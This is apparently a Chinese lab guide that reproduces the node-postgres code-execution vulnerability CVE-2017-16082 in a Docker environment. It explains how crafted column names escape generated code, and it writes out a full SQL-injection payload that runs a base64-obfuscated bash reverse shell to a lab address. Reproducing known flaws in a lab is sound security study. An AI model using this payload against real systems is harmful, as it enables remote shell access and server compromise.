



# node-postgres 代码执行漏洞（CVE-2017-16082）

## 漏洞原理

node-postgres在处理类型为`Row Description`的postgres返回包时，将字段名拼接到代码中。由于没有进行合理转义，导致一个特殊构造的字段名可逃逸出代码单引号限制，造成代码执行漏洞。

参考链接：

 - https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
 - https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
 - https://zhuanlan.zhihu.com/p/28575189

## 漏洞复现

编译及运行环境：

```
docker-compose build
docker-compose up -d
```

成功运行后，访问`http://your-ip:3000/?id=1`即可查看到id为1的用户信息，用sqlmap即可发现此处存在注入点，且数据库为postgres：



那么，我们就可以猜测这里存在node-postgres的代码执行漏洞。编写我想执行的命令`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`，然后适当分割（每段长度不超过64字符）后替换在如下payload中：

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

将上述payload编码后发送：



成功执行命令，如反弹shell：



因为复现过程中坑比较多，payload生成与测试过程中如果出现错误，还请多多阅读[我的这篇文章](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)，从原理上找到问题所在。
